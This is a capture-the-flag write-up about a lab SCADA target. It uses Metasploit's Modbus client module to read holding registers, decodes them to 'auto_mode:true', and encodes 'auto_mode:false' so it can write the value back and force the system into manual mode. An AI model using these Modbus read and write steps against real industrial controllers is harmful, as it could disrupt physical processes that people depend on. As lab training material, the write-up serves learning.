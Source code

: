 
Modbusclient module seems to be the most useful for this case.
```
msf6> use auxiliary/scanner/scada/modbusclient
msf6 auxiliary(scanner/scada/modbusclient)> show options
```

![](/lighttheway/meta1.png)


So the RHOST for this  instance will be the IP address : `10.129.96.95`

```
set RHOST 10.129.96.95
```
We need to set where we want to start reading the DATA from to do that we need wo set the DATA_ADDRESS field
```
set DATA_ADDRESS 0
```

Then we need to set how many DATA_ADDRESS we want to read.

```
set NUMBER 18
```
![](/lighttheway/meta2.png)


Let's see what those numbers mean. 

This small python command takes the arr of int and converts to a string.

```
arr = [97, 117, 116, 111, 95, 109, 111, 100, 101, 58, 116, 114, 117, 101]

print("".join(chr(x) for x in arr))
```

With the python script I was able to get a string: `auto_mode:true`

## Setting it to manual
If I remember correctly the description of the challenge wants us to set it to manual mode. Which means we need to set the auto_mode to false.


```
print([ord(x) for x in "auto_mode:false"])
```

Used this python script to get the numbers that we need to send in order to set the SCADA system to false. 

```
[97, 117, 116, 111, 95, 109, 111, 100, 101, 58, 102, 97, 108, 115, 101]
```

I wrote a simple python script that uses the Perl Modbus library to write to the holding registry. 
![](https://c.tenor.com/zOAWdshu_I0AAAAd/boring-unimpressed.gif)
